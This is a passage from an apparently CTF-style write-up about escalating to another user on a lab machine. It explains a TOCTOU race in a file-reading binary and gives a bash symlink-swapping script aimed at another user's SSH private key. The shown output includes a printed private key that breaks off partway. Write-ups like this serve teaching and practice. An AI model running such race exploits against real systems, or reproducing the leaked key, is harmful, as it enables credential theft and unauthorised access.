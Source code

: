     if (local_28 < 1) break;                  // EOF or read error
    sVar4 = write(1, local_428, (long)local_28); // write to stdout (fd=1)
} while (0 < sVar4);
</pre>
<p>Here, I got stuck and had no idea on how this binary could be exploited to escalate to the "Youcef" user. Thus, I consulted a writeup. Apparently, this binary is vulnerable to something that is called a "RACE" condition. More specifically, a TOCTOU RACE condition (Time-of-check to Time-of-use).This happens when a program first checks a file and after the check it does something with the file (in this case reading its contents). This is vulnerable as there is a small gap between the checks and the reading of the file. During this gap, we can replace/change the file and thereby tricking the program to open another file which would otherwise not pass the initial checks that are happening at the beginning of the code. In practice, this can be exploited as follows: </p>
<pre>
#!/bin/bash
while true; do
ln -sf /home/youcef/.ssh/id_rsa temp
rm temp
touch temp
done &
for i in {1..30;}
    do /home/youcef/readfile temp
done
</pre>

<p>After a few attempts, this script should return the ssh private key:</p>
<pre>
john@Breakme:~$ ./exploit.sh
./exploit.sh
File Not Found
File Not Found
File Not Found
I guess you won!

File Not Found
File Not Found
readfile: readfile.c:38: main: Assertion `fd >= 0 && "Failed to open the file"' failed.
./exploit.sh: line 7: 503560 Aborted                 /home/youcef/readfile temp
I guess you won!

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z
P5f1aOa67ZDRv6XlKz/0fASHI4XQF3pNBWpA79PPlOxDP3QZfZnIxNIeqy8NXrT23cDQdx
ZDWnKO1hlrRk1bIzQJnMSFKO9d/fcxJncGXnjgBTNq1nllLHEbf0YUZnUILVfMHszXQvfD
j2GzYQbirrQ3KfZa+m5XyzgPCgIlOLMvTr2KnUDRvmiVK8C3M7PtEl5YoUkWAdzMvUENGb
UOI9cwdg9n1CQ++g25DzhEbz8CHV/PiU+s+PFpM2chPvvkEbDRq4XgpjGJt2AgUE7iYp4x
g3S3EnOoGoezcbTLRunFoF2LHuJXIO6ZDJ+bIugNvX+uDN60U88v1r/SrksdiYM6VEd4RM
s2HNdkHfFy6o5QnbBYtcCFaIZVpBXqwkX6aLhLayteWblTr7KzXy2wdAlZR3tnvK/gXXg3
6FXABWhDDYaGkN/kjrnEg8SGT71k7HFawODRP3WMD1ssOy70vCN3SvZpKt3iMrw2PtqOka
afve2gmscIJdfP5BdXOD419eds2qrEZ0K5473oxaIMKUmAq0fUDzmT+6a4Jp/Vz3MEGcGC
VAeyNXxZqXAfdL/2Fuhi1H4KQ4qojyZLBLo2Uf8bDsCFG+u9jJ45OgiYxWeZEjf2C3N6CR
9kxRdjK6+z/nXVWdreh/RyACb10QAAByDrJL8KWNHniidTtyAU22rC0ErO2vvQyB3w3GOi
wOf/mTCo68tWxe77WcxFewTRnHJpMqayWEv96ZFnpArCaravM7nrKtu+f73scZEeLMM71u
OZQTMdiHOX0HoncVLwD0RmdAvL6JXWB0n8+supleKk0CTIDdmDFY4LarpI2cMAUctaOh71
LtGLPCKJOG8R9yyyYoteQNUdGDwkNt8wH+3qtnAHFzKyhRMPYvHw5OBa2GwIZZ6jDLF1LQ
xGvxJ7hASyvlEKosgt5+cQAvPcj+LGAcCjibUrYIm73QTF33DM9atGbbT4dtK4ZNiSj7ek
uew5G8frfuexwetRaEOD67y1YJpyLb/4tgaBGDE6L8puI8ZO4EGlMUsBIY1bd8Y6hOWZOn
Oz6NboTzvAlL3+OT4UzkC4v2/JQDPXgQuEklUqjHDS1BeHmGI9h0IPf5J56zMtqb8YHOpo
l+jSCjItjoAnmT0hI5vpT24UeijBx3qRqJlkTIQLufsmOoAwdFQEd7JqQ/V6eEK11MVLQF
vo3fp2vRJ5NZqhFdAv3bIC5ARFzuGdh49tK1XTeGbX/Pki9m7RXNGK44s41ouRbfvtIXkY
ZZzRHr71zWs9oql0cp6WRN1+NbQX6lAqquKqz1mWuRnFdZwx2O15r5arXhW6H0WtsQHEv8
AQKDnHqUyRm5CGggcxuPvgAnZGS1pwi5FXfv5xZg2iGbB2b09Lnnlr5DYSDulKygoMBcDs
L8ItQoQ2vBPq8bC8xFsQFXwL3sMn4LhNl6ZwD4VlSggG+LpItQz98WU/Jp571qGI19XgnV
qUXv8gRmvHNXadg9WWPG32YqJNJFqYI8dcGa08lh9LENfpAc6jrDg4C2Xu2OwlRYGcR+ac
J1/le0ggo3bpFQKHRY6AHLgczi/y7+CGhSGw6xX5CD8wCZev9TBn43HBu65+pdIEH5LEID